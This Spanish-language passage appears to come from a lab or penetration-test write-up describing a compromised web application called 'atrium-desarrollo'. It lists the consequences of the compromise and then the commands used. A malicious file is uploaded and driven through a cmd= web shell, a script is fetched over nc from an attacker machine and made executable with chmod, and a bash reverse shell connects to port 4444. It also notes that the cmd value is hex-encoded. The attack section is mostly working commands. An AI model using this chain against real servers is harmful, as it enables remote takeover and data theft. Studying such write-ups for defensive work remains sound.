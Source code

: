 - ![Cat /etc/passwd](/assets/images/posts/atrium-desarrollo/catetc.png)
    


###### **2. Consecuencias**

- **Ejecución de comandos arbitrarios** en el servidor.
    
- **Obtención de reverse shell**, logrando control completo del sistema como `www-data`.
    
- **Compromiso total del sistema**, incluyendo bases de datos y archivos, con posibilidad de pivotar hacia otros sistemas.
    



###### **3. Exploits y Comandos Usados**

- Subida de archivos maliciosos vía Burp Suite.    
- Transferencia de payload con `nc` y ejecución remota.    
- Cambio de permisos con `chmod` para ejecutar scripts en `/tmp/`.    
- Reverse shell interactiva a máquina atacante por puerto 4444.    

Ejemplos de comandos ejecutados:

```json

sudo nc -lvnp 444 < shell.php -----------> Desde mi maquina atacante en escucha por el puerto 444
localhost:8888/upload/hola.jpg/hola.php?cmd=nc 192.168.0.17 444 > /tmp/shell.sh -----------> desde el URL del cmd subido llamado al archivo .sh por el puerto 444
localhost:8888/upload/hola.php/hola.php?cmd=chmod +x /tmp/shell.sh ----------->  Desde el URL del cmd subido dando permisos de ejecucion
sudo nc -lvnp 4444                                                 ----------->  Desde mi maquina atacante en escucha por el puerto 4444
localhost:8888/upload/hola.php/hola.php?cmd=bash /tmp/shell.sh  ----------->  Desde el URL del cmd subido ejecutar script para recibir la rev shell
					#!/bin/bash bash -i >& /dev/tcp/192.168.0.17/4444 0>&1   ----------->  Contenido de shell.php 
-------------------> El url que se envia luego del cmd= debe estar codificado en HEX

```
